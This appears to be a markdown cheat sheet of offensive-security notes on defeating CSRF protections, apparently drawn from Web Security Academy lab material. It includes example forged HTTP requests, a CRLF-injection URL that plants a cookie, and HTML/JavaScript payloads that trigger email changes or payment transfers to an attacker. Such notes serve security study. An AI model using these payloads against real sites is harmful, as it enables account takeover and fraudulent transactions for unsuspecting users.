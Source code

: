 # Content
- [Bypassing CSRF token validation](#bypassing-csrf-token-validation)
  - [Validation of CSRF token depends on request method](#validation-of-csrf-token-depends-on-request-method)
  - [Validation of CSRF token depends on token being present](#validation-of-csrf-token-depends-on-token-being-present)
  - [CSRF token is not tied to the user session](#csrf-token-is-not-tied-to-the-user-session)
  - [CSRF token is tied to a non-session cookie](#csrf-token-is-tied-to-a-non-session-cookie)
# Bypassing CSRF token validation

### Validation of CSRF token depends on request method

try diffrent methods

### Validation of CSRF token depends on token being present

remove paramter

### CSRF token is not tied to the user session

obtain a token and use it

### CSRF token is tied to a non-session cookie
- If the website contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. 
- The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack. 
- The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv  
  
csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

### CSRF token is tied to a length
- change a char

use crlf injection EX :

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```


### CSRF token is simply duplicated in a cookie

- some applications do not maintain any server-side record of tokens that have been issued

- the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie-but

- instead duplicate each token within a cookie and a request parameter.

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa  
  
csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```



# Bypassing SameSite cookie restrictions

### Bypassing SameSite Lax restrictions using GET requests

- craft get link
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

- method override


for example Symfony supports the _method parameter 
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

### Bypassing SameSite restrictions using on-site gadgets (Strict , Lax )

- find a gadget that results in a secondary request within the same site

EX : DOM-based open redirection.

```html
<script>  
document.location =```https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?  
postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1```;  
</script>
```


### Bypassing SameSite restrictions via vulnerable sibling domains

-xss

-Cross-site WebSocket hijacking


# Bypassing Referer-based CSRF defenses

### Validation of Referer depends on header being present

 HTML page that hosts the CSRF attack contain:  
```html
<meta name="referrer" content="never">
```
